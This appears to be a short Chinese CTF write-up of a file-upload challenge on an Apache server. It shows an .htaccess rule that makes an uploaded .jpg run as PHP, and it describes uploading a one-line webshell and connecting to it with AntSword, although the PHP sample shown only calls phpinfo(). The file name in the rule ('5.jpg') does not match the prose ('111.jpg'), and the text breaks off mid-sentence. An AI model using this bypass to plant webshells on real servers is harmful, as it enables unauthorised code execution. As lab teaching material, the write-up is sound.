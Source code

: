 #文件上传 

`Server : Apache/2.4.7 (Ubuntu)`
title: 试试和某些文件配合呢
```
htaccess文件是什么

htaccess文件是Apache服务器中的一个配置文件，他负责相关目录下的网页配置。通过htaccess文件，可以帮助我们实现：网页301重定向，自定义404错误页面，改变文件扩展名，允许或组织特定的用户或者，目录的访问，禁止目录列表，配置默认文档等功能。
```

有 `.htaccess`  文件
```
<FilesMatch "5.jpg"> SetHandler application/x-httpd-php </FilesMatch>
```
上传 htacces文件 （将文件名中带有 '111.jpg' 的文件当作php文件解析）
上传一句话木马：111.jpg
之后蚁剑连接

111.jpg：
```php
<?php
	phpinfo();
?>
```
也可以